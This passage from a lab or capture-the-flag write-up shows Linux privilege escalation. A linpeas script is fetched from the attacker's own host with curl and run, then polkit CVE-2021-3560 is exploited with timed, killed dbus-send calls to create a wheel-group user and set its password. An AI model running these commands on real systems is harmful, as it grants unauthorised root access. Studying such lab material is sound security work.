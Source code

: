**On our local machine in the directory containing the linpeas script**  

```sh
python -m http.server 1234
```  

**On target machine in ssh session**  

```sh
curl <YOUR-IP>:1234/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```  

linpeas tells us its vulnerable to [CVE-2021-3560](https://nvd.nist.gov/vuln/detail/cve-2021-3560). I've attempted exploiting this vulnerability before in [the Cap HTB lab]({% post_url 2025-02-05-hackthebox-cap-lab %}#privilege-escalation) but it didn't work on that machine, we'll try it again here.  

The exploit exploits the polkit system service which is used for authentication, polkit will decide whether or not you are allowed to do it. To trigger polkit from command line we use the `dbus-send` command.  

The vulnerability is triggered by starting a `dbus-send` command but killing it while polkit is still in the middle of processing the request.

For more explanation on how the exploit works find the article [here](https://github.blog/security/vulnerability-research/privilege-escalation-polkit-root-on-linux-with-bug/).  

We'll first measure how long it takes to run the `dbus-send` command normally using:  

```sh
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1
```

I ran it a few times and was getting around the `0.050s` mark, so I'll need to kill the command in `0.025s`:    

```sh
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.025s ; kill $!
```  

This creates the user `boris` and when running the command `id boris` we see he is already part of the wheel group.  

Now we need to set the password for `boris` using the SetPassword dbus method which requires a password hash, so we generate the hash using the command:  

```sh
openssl passwd -5 boris
$5$NZ5DVoaEF8pPZTq3$rsROsTG4WiRL7sH01hEJEw4bcgMwb6gJlUgnXPfCH4A
```  

We input this hash into the command:  

```sh
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$Fb4OJPwdlUS7ISsT$jePFjfqrQSPKSpOlJ.i5zoHPaA10W5aGOkBnpcI2ykC' string:GoldenEye & sleep 0.025s ; kill $!
```  
